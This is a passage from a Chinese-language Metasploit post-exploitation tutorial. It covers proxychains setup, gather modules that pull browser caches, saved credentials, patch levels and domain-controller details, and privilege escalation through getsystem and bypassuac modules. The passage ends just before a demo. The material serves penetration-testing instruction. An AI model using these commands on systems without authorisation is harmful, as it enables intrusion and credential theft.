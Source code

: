 配置 proxychains：

```
vi /etc/proxychains.conf #添加 socks4 127.0.0.1 1080
```

最后 proxychains 使用 Socks4a 代理访问工具或者浏览器即可！

4. 信息收集  

最常用的脚本：  

```
/usr/share/metasploit-framework/modules/post/windows/gather
/usr/share/metasploit-framework/modules/post/linux/gather

解释：
run post/windows/gather/checkvm #是否虚拟机
run post/linux/gather/checkvm #是否虚拟机
run post/windows/gather/forensics/enum_drives   #查看分区
run post/windows/gather/enum_applications     #获取安装软件信息
run post/windows/gather/dumplinks         #获取最近的文件操作
run post/windows/gather/enum_ie          #获取IE缓存
run post/windows/gather/enum_chrome         #获取Chrome缓存
run post/windows/gather/enum_patches    #补丁信息
run post/windows/gather/enum_domain    #查找域控
```

这几个都是常用也高效的，查看到缓存可以收集邮箱登录等各平台客户用过的记录信息和账号密码，查看安装软件信息，补丁信息更好的进一步 EXP，或者找到域控信息等

5. 提权

1）getsystem

工作原理：

```
1、getsystem创建一个新的Windows服务，设置为SYSTEM运行，当它启动时连接到一个命名管道。
2、getsystem产生一个进程，它创建一个命名管道并等待来自该服务的连接。
3、Windows服务已启动，导致与命名管道建立连接。
4、该进程接收连接并调用ImpersonateNamedPipeClient，从而为SYSTEM用户创建模拟令牌。
```

然后用新收集的 SYSTEM 模拟令牌产生 cmd.exe，并且我们有一个 SYSTEM 特权进程…  
这里不是特别稳定…

2）bypassuac

内置多个 pypassuac 脚本，原理有所不同，使用方法类似，运行后返回一个新的会话，需要再次执行 getsystem 获取系统权限，如：

```
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```

演示：  

如使用 bypassuac.rb 脚本：

